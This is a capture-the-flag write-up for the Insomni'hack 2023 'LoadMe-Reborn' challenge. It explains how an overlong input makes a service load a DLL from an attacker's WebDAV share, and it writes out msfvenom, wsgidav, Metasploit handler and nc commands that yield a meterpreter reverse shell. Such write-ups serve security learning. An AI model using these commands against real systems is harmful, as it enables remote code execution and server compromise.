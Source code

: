 # Insomni'hack - LoadMe-Reborn   
This repository is a solution for the flag LoadMe-Reborn for 2023's editions of insomni'hack.
## The flag   
The flags begin with a simple instructions, that someone had developped an application to do a recipe with given components. They give us a nc command so we can connect to the app :
(I have forgot the command that they gave us, but it should be like this one)
```console
nc 10.1.2.13 1234
```
Then, we have a beautiful cli's app that ask us for ingredients so they can cook, if you try to write some ingredients and hit enter, it'll tell us that the kitchen is closed. But it'll echo back the ingredients that we had typed before closing.
The simple trick here is to type ingredients' list so long that they will be an error. The important line in the error is that he has tried to load a DLL library but it was unable to load it, simply because it doesn'it exists ! It has tried to load a DLL with the end of the string that you had typed, so from here we can execute a DLL library of our choice, even our own !   
So we need to have a DLL that can do a reverse shell so we can have access to the server that is running the app. For that I have used msfvenom (.DLL in uppercase) : 
```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=4444 -f dll -o msf.DLL
```
And then we need a share that the server can use, the first thing that I had tried is smb share, but unfortunately, it has been blocked via a regex, so we need another technology, the next this I tried was webdav and it worked !
You need to host a webdav server, for that I have used wsgidav, it is a generic and extendable WebDAV server written in Python and based on WSGI. I have used this command, you need to launch it where you have generated your DLL library.
```console
wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```
Before loading your library on the server, you need to prepare for the reverse shell with those command :
```console
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost your_ip_address
lhost => your_ip_address
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```
And the you can launch your DLL on the server with this command : 
```console
echo '(stringlongenoughtodotheerror)//youripadress@80/msf' | nc 10.1.2.13 1234
```
It'll launch the nc command and enter the string between the quotes in the app. Now in the shell where you had executed the reverse shell command, you have now access to the server and can get the flag who is in the .txt file !
## Tools
msfvenom : 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
* https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html

wsgidav :
* https://wsgidav.readthedocs.io/en/latest/
